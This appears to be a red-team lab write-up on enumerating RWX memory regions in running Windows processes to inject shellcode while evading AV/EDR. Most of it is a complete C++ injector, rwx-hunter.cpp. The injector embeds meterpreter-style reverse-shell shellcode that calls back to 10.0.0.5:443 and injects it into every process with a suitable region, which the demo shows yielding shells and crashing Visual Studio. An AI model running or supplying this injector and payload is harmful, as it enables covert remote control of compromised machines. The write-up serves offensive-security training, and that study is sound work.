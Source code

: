 ```yaml
---
description: 'Code Injection, Defense Evasion'
---
```


# Enumerating RWX Protected Memory Regions for Code Injection

Injecting and executing shellcode from a local or target process requires memory where the shellcode could be written to, read from and executed. 

Some shellcode injection techniques allocate `PAGE_EXECUTE_READWRITE` memory block, fill it with shellcode and create a thread pointing to that shellcode. It's not a very common thing for bening applications to do and this is something AV/EDR solutions may punish you for if they catch you doing it.

Some techniques allocate `PAGE_READWRITE` first, write shellcode to the allocated memory, protect it with `PAGE_EXECUTE_READ` and then execute it, which means that at no point in time there's an RWX memory block in the target process. It is a bit stealthier and may help one sneak past AVs/EDRs.

What both techniques have in common is that they still need to **allocate** and **protect** memory \(RW -&gt; RX or RWX\).  Having said that, it is possible to brute-force/enumerate currently running target processes on the compromised system - search through their allocated memory blocks and check if any those are protected with RWX, so we can attempt to write/read/execute them, which may help evade some optics.

## Overview

In this lab I will write a simple program that will:

* Loop through all the processes on the system
* Query each process's memory information
* Loop through all allocated memory blocks in each process
* Check for any memory block that is protected with RWX && is private && is committed
* If the above condition is met
  * Print out address of the memory block
  * Write shellcode to that memory block
* Create a remote thread that points to the shellcode written in the above step

Running the [Code](finding-all-rwx-protected-memory-regions.md#code) with breakpoint set on line 31 will be hit if the conditions on line 27 are met. The conditions we are checking for are: 

```cpp
mbi.AllocationProtect == PAGE_EXECUTE_READWRITE 
&& mbi.State == MEM_COMMIT 
&& mbi.Type == MEM_PRIVATE
```

Once the breakpoint is hit, we can see that the memory region 27c727a0000 is RX protected, is private and commited and now contains our shellcode \(starting with bytes fc 48 83 e4\) :

![](../../.gitbook/assets/image%20%28256%29.png)

If you noticed and were wondering...

> ### Why were we able to WRITE to an RX memory region?
>
> When you call `Write­Process­Memory` and tell it to write to memory that is read-only, the `Write­Process­Memory` succeeds. How can that be?
>
> Because `Write­Process­Memory` tries really hard to please you.
>
> As I noted some time ago, [the primary audience for functions like `Create­Remote­Thread` and `Write­Process­Memory` is debuggers](https://blogs.msdn.microsoft.com/oldnewthing/20120808-00/?p=6913). And when debuggers try to patch memory, it’s often for things like patching in a breakpoint instruction or doing some [edit-and-continue](https://docs.microsoft.com/en-us/visualstudio/debugger/edit-and-continue?view=vs-2015) magic. So the `Write­Process­Memory` tries really hard to get those bytes written. If the page is read-only, `Write­Process­Memory` temporarily changes the permission to read-write, updates the memory, and then restores the original permission.
>
> “No need to thank me, just trying to help.”
>
> There is a race condition if the target process happens to be manipulating the page protection at the same time that `Write­Process­Memory` is. But that’s okay, because the intended audience is debuggers, and debuggers will freeze the target process before trying to edit its memory.
>
> There is no security hole here, because the way the `Write­Process­Memory` function changes the page protection is basically `Virtual­Protect­Ex`, so it will succeed only if you already could have modified the protections yourself anyway. If you didn’t have permission to change the protections, then `Write­Process­Memory`‘s attempt to change the protections would fail too.
>
> Source: [https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415](https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415)

## Demo

Let's build the program and run it - we can see we got some meterpreter shells.

![](../../.gitbook/assets/memoryenumerationshell.gif)

{% hint style="warning" %}
The below provided code is a dirty POC and may crash certain processes and the Visual Studio banner appearing in the above GIF proves it - the shellcode got injected into Visual Studio \(devenv.exe\) that crashed and restarted itself.
{% endhint %}

## Code

{% tabs %}
{% tab title="rwx-hunter.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	MEMORY_BASIC_INFORMATION mbi = {};
	LPVOID offset = 0;
	HANDLE process = NULL;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	DWORD bytesWritten = 0;
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	Process32First(snapshot, &processEntry);
	while (Process32Next(snapshot, &processEntry))
	{
		process = OpenProcess(MAXIMUM_ALLOWED, false, processEntry.th32ProcessID);
		if (process)
		{
			std::wcout << processEntry.szExeFile << "\n";
			while (VirtualQueryEx(process, offset, &mbi, sizeof(mbi)))
			{
				offset = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);
				if (mbi.AllocationProtect == PAGE_EXECUTE_READWRITE && mbi.State == MEM_COMMIT && mbi.Type == MEM_PRIVATE)
				{
					std::cout << "\tRWX: 0x" << std::hex << mbi.BaseAddress << "\n";
					WriteProcessMemory(process, mbi.BaseAddress, shellcode, sizeof(shellcode), NULL);
					CreateRemoteThread(process, NULL, NULL, (LPTHREAD_START_ROUTINE)mbi.BaseAddress, NULL, NULL, NULL);
				}
			}
			offset = 0;
		}
		CloseHandle(process);
	}

	return 0;
}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex" %}

